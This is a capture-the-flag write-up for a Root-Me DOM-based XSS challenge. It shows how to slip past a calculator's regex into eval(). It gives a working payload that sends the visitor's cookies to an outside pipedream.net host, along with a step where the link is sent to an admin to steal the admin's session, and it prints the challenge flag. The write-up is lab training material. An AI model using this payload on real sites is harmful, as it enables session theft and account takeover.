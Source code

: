 # XSS DOM Based - Eval

In this chall, you will be provided with a calculator that can add, substract, multiply and divide. There is only one input field so we will attack on that.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval1.png" />
</p>

Enter a string and this is what you'll get.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval2.png" />
</p>

If you look carefully, the regex is not very hard to bypass. Just enter an expression at the start of the input, after that we can do anything we want.

Now I wil tell you how to solve this challenge. The `eval()` function can execute one or more commands in only one call like this:
`eval(<expression1>,<expression2>,<expression3>)`. For example, if you use `eval(alert(1),alert(2))`, you will get 2 popup alert box. So we will leverage this and solve this challenge. The payload to exploit this challenge will be like `1+1,<your payload>`. We use `1+1` to bypass the regex, after that we will use `,` to pass another parameter to the `eval()` function, that is our payload. However, if you use alert(), you will get this:

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval3.png" />
</p>


The `()` is filtered, so I used `document.location` to XSS, and It's success! The payload I used to solved this challenge is  

```javascript

1+1,document.location="https://eo3f8xwoiu4uj8s.m.pipedream.net/?"+document.cookie

```

Enter the payload, then grab the url and send it to admin using Contact feature. Wait for a short time and the flag is arrived :D

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval4.png" />
</p>


Flag is `rootme{Eval_Is_DangER0us}`

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval5.png" />
</p>
